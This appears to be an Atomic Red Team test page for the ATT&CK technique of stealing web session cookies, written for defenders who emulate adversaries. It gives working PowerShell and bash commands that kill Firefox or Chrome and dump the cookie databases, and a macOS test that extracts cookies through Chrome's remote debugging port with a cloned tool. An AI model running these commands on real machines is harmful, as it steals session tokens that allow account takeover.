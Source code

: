 # T1539 - Steal Web Session Cookie
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1539)
<blockquote>An adversary may steal web application or service session cookies and use them to gain access to web applications or Internet services as an authenticated user without needing credentials. Web applications and services often use session cookies as an authentication token after a user has authenticated to a website.

Cookies are often valid for an extended period of time, even if the web application is not actively used. Cookies can be found on disk, in the process memory of the browser, and in network traffic to remote systems. Additionally, other applications on the targets machine might store sensitive authentication cookies in memory (e.g. apps which authenticate to cloud services). Session cookies can be used to bypasses some multi-factor authentication protocols.(Citation: Pass The Cookie)

There are several examples of malware targeting cookies from web browsers on the local system.(Citation: Kaspersky TajMahal April 2019)(Citation: Unit 42 Mac Crypto Cookies January 2019) Adversaries may also steal cookies by injecting malicious JavaScript content into websites or relying on [User Execution](https://attack.mitre.org/techniques/T1204) by tricking victims into running malicious JavaScript in their browser.(Citation: Talos Roblox Scam 2023)(Citation: Krebs Discord Bookmarks 2023)

There are also open source frameworks such as `Evilginx2` and `Muraena` that can gather session cookies through a malicious proxy (e.g., [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557)) that can be set up by an adversary and used in phishing campaigns.(Citation: Github evilginx2)(Citation: GitHub Mauraena)

After an adversary acquires a valid cookie, they can then perform a [Web Session Cookie](https://attack.mitre.org/techniques/T1550/004) technique to login to the corresponding web application.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Steal Firefox Cookies (Windows)](#atomic-test-1---steal-firefox-cookies-windows)

- [Atomic Test #2 - Steal Chrome Cookies (Windows)](#atomic-test-2---steal-chrome-cookies-windows)

- [Atomic Test #3 - Steal Chrome Cookies via Remote Debugging (Mac)](#atomic-test-3---steal-chrome-cookies-via-remote-debugging-mac)


<br/>

## Atomic Test #1 - Steal Firefox Cookies (Windows)
This test queries Firefox's cookies.sqlite database to steal the cookie data contained within it, similar to Zloader/Zbot's cookie theft function. 
Note: If Firefox is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 4b437357-f4e9-4c84-9fa6-9bcee6f826aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539FirefoxCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "firefox" -force -erroraction silentlycontinue
$CookieDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*\cookies.sqlite"
"select host, name, value, path, expiry, isSecure, isHttpOnly, sameSite from [moz_cookies];" | cmd /c #{sqlite3_path} "$CookieDBLocation" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #2 - Steal Chrome Cookies (Windows)
This test queries Chrome's SQLite database to steal the encrypted cookie data, designed to function similarly to Zloader/Zbot's cookie theft function. 
Once an adversary obtains the encrypted cookie info, they could go on to decrypt the encrypted value, potentially allowing for session theft. 
Note: If Chrome is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 26a6b840-4943-4965-8df5-ef1f9a282440





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cookie_db | Filepath for Chrome cookies database | string | $env:localappdata&#92;Google&#92;Chrome&#92;User Data&#92;Default&#92;Network&#92;Cookies|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539ChromeCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "chrome" -force -erroraction silentlycontinue
"select host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly from [Cookies];" | cmd /c #{sqlite3_path} "#{cookie_db}" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #3 - Steal Chrome Cookies via Remote Debugging (Mac)
The remote debugging functionality in Chrome can be used by malware for post-exploitation activities to obtain cookies without requiring keychain access. By initiating Chrome with a remote debug port, an attacker can sidestep encryption and employ Chrome's own mechanisms to access cookies.

If successful, this test will output a list of cookies.

Note: Chrome processes will be killed during this test.

See https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

**Supported Platforms:** macOS


**auto_generated_guid:** e43cfdaf-3fb8-4a45-8de0-7eee8741d072






#### Attack Commands: Run with `bash`! 


```bash
killall 'Google Chrome'
sleep 1
open -a "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --args --remote-debugging-port=1337 --remote-allow-origins=http://localhost/
sleep 1
/tmp/WhiteChocolateMacademiaNut/chocolate -d cookies -p 1337
```

#### Cleanup Commands:
```bash
rm -rf /tmp/WhiteChocolateMacademiaNut
```



#### Dependencies:  Run with `bash`!
##### Description: Install Go
##### Check Prereq Commands:
```bash
go version
```
##### Get Prereq Commands:
```bash
brew install go
```
##### Description: Download and compile WhiteChocolateMacademiaNut
##### Check Prereq Commands:
```bash
/tmp/WhiteChocolateMacademiaNut/chocolate -h
```
##### Get Prereq Commands:
```bash
git clone https://github.com/slyd0g/WhiteChocolateMacademiaNut.git /tmp/WhiteChocolateMacademiaNut
cd /tmp/WhiteChocolateMacademiaNut
go mod init chocolate
go mod tidy
go build
```




<br/>
